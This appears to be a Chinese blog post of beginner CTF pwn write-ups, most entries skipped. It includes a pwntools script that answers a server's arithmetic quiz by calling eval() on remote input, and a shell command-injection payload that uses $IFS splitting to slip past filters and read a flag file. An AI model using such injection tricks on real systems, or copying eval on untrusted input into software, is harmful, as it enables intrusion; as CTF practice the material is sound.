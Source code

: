 ```yaml
---
title: PWN入门-入门泛做题
date: 2024-02-13 18:36:44
tags: PWN
mathjax: true
---
```


# PWN入门-入门泛做题

## [LitCTF 2023]只需要nc一下~

Dockerfile

## [NISACTF 2022]ReorPwn?

略。

## [HNCTF 2022 Week1]easync

略。

## [SWPUCTF 2022 新生赛]Does your nc work？

略。

## [HGAME 2023 week1]test_nc

略。

## [GDOUCTF 2023]EASY PWN

应该是ret2text，但是题出的有问题...

## [LitCTF 2023]口算题卡

```python
from pwn import *
context(log_level='debug')
p=remote("node4.anna.nssctf.cn",28864)
for i in range(0,100):
    p.recvuntil("What is ")
    line_get=p.recvline().strip().strip(b'?').decode()
    ans=str(eval(line_get)).encode()
    p.sendline(ans)
p.interactive()
```

## [HUBUCTF 2022 新生赛]singout

```bash
a=g;tac$IFS$9fla$a.txt
```
